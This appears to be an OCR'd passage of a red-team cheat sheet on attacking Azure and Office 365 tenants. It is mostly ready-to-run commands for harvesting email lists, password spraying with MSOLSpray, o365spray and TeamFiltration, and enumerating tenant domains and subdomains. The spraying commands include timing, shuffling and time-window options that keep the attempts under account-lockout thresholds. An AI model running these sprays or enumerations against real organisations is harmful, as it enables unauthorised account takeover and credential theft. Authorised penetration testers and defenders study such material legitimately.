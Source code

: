 * Extract email lists with a valid credentials : [nyxgeek/o365recon](https://github.com/nyxgeek/o365recon)

    ```powershell
    Install-Module MSOnline
    Install-Module AzureAD
    .\o365recon.ps1 -azure
    ```

### Password Spraying

The default lockout policy tolerates 10 failed attempts, then lock out an account for 60 seconds.

* [dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray)

    ```powershell
    PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
    PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
    PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
    PS> Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
    ```

* [0xZDH/o365spray](https://github.com/0xZDH/o365spray)

    ```powershell
    o365spray --spray -U usernames.txt -P passwords.txt --count 2 --lockout 5 --domain test.com
    ```

* [Flangvik/TeamFiltration](https://github.com/Flangvik/TeamFiltration)

    ```powershell
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
    ```

## Azure Services Enumeration

### Enumerate Tenant Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -DomainName <DOMAIN>
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```

### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```
